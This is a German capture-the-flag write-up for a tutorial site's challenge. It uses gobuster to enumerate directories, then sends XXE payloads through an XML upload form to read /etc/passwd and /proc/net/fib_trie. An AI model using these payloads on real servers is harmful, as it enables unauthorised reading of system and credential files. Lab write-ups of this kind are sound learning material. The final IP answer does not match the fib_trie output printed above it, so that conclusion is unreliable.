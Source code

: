 # Solution of [HC 0x0c](https://hc.the-morpheus.de/0x0c.html) from [The Morpheus Tutorials](https://the-morpheus.de)

### 1. [Update Funktion](http://the-morpheus.de:20003/upload) finden
```
    $ gobuster -u http://the-morpheus.de:20003 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    Gobuster v1.4.1 OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode : dir
    [+] Url/Domain : http://the-morpheus.de:20003/
    [+] Threads : 10
    [+] Wordlist : /usr/share/wordlists/dirbuster/directory-list-lowercase-
    2.3-medium.txt
    [+] Status codes : 307,200,204,301,302
    =====================================================
    /upload (Status: 200)
```

### 2. Anylse der Update Funktion
Im Quellcode der Update Seite befindet sich ein Kommentar, welcher auf die vom Upload akzeptierte Dateiart ([XML](https://de.wikipedia.org/wiki/Extensible_Markup_Language)) hinweißt. Außerdem deutet er auf eine fehlende Datenvalidierung hin.
```html
<!-- TODO: make XML schema to verify the uploaded data -->
```

### 3. Finden und Ausnutzen der Sicherheitslücke
Anschließend kann geprüft werden ob der Server anfällig für [XML External Entity](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) ist.
Durch die Aunutzung der Sicherheitslücke kann im folgenden Beispiel die Datei `/etc/passwd` ausgelesen werdem:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE api [ <!ELEMENT api ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<api><title>&xxe;</title><url/><description/></api>
```

### 4. IP Adresse anzeigen lassen
Die Netzwerkkonfiguration (in der die IP Adresse enthalten ist) kann unter `/proc/net/fib_trie` durch ausnutzen der gefundenen Sicherheitslücke angezeigt werden.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE api [ <!ELEMENT api ANY >
<!ENTITY xxe SYSTEM "file:///proc/net/fib_trie" >]>
<api><title>&xxe;</title><url/><description/></api>
```

Da die Datei die Netzwerkkonfiguration graphische darstellt ist die Ausgabe schwer zu lesen und zu Interprätieren.

```
Main: +-- 0.0.0.0/0 3 0 5 |-- 0.0.0.0 /0 universe UNICAST +-- 127.0.0.0/8 2 0 2 +-- 127.0.0.0/31 1 0 0 |-- 127.0.0.0 /32 link BROADCAST /8 host LOCAL |-- 127.0.0.1 /32 host LOCAL |-- 127.255.255.255 /32 link BROADCAST +-- 172.19.0.0/16 2 0 2 +-- 172.19.0.0/29 2 0 2 |-- 172.19.0.0 /32 link BROADCAST /16 link UNICAST |-- 172.19.0.6 /32 host LOCAL |-- 172.19.255.255 /32 link BROADCAST Local: +-- 0.0.0.0/0 3 0 5 |-- 0.0.0.0 /0 universe UNICAST +-- 127.0.0.0/8 2 0 2 +-- 127.0.0.0/31 1 0 0 |-- 127.0.0.0 /32 link BROADCAST /8 host LOCAL |-- 127.0.0.1 /32 host LOCAL |-- 127.255.255.255 /32 link BROADCAST +-- 172.19.0.0/16 2 0 2 +-- 172.19.0.0/29 2 0 2 |-- 172.19.0.0 /32 link BROADCAST /16 link UNICAST |-- 172.19.0.6 /32 host LOCAL |-- 172.19.255.255 /32 link BROADCAST 
```

Eine interne (nicht lokale) IP Adresse ist bestimmten Adressbereichen zuzuweisen.
```
   10.0.0.0 -  10.255.255.255         (10.0.0.0/8)
 172.16.0.0 -  172.31.255.255         (172.16.0.0/12)
192.168.0.0 - 192.168.255.255         (192.168.0.0/16)
```
Die kleinste Adresse eines Adressbereiches ist die Netzadresse, die größte die Broadcast Adresse. Daher können manche von den gefundenen Adressen ausgeschlossen werden.

Die letzte übrig bleibende IP Adresse ist die `192.168.101.253` 
